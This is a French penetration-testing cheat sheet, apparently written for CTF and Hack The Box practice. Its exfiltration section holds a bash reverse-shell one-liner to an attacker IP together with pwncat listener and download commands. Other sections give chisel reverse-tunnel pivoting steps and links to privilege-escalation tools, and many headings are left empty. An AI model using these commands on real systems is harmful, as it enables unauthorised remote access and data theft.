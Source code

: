 # Reconnaissance
# Scanning & Enumeration


# Exploitation (Gaining Access)
# Exfiltration de données
Utilisation de pwncat:
1. Côté attaquant:
<code>pwncat-cs -lp 1337</code>

2. Côté cible
<code>bash -c 'bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1'</code>

3. Côté attaquant
<code>download /chemin/fichier</code>

# Rebond 
## Resources
1. Etat de l'art
https://www.orangecyberdefense.com/fr/insights/blog/ethical-hacking/etat-de-lart-du-pivoting-reseau-en-2019
2. Machines HTB
Rebond avec chisel: 
    - Talkative
## Rebond avec chisel
Lien vers le binaire: https://github.com/jpillora/chisel/releases/ 
1. Sur la machine de l'attaquant:
```shell
./chisel server --reverse -p 8000
```
2. Sur la machine rebond:
```shell
./chisel client <adresse_attaquant>:8000 R:<port_localhost>:<adresse_cible>:<port_cible>
```
3. Accéder au port cible de la machine distante
joindre localhost:<port_localhost>

# Privilege Escalation
## Recherche de défaut de configuration et de vulnérabilités
### Utilisation de pspy
Le script peut-être trouvé ici: https://github.com/DominicBreuker/pspy.git 
### Utilisation de linpeas
Lien vers le binaire: https://github.com/carlospolop/PEASS-ng/releases
## Lister les capabilities
```console
capsh --print
```
Liste des exploists liés aux capabilities https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search 
# Command & Control (Persistence/Maintaining Access)
# Clearing Tracks (usually not necessary in CTF’s, but good practice)

# Resources
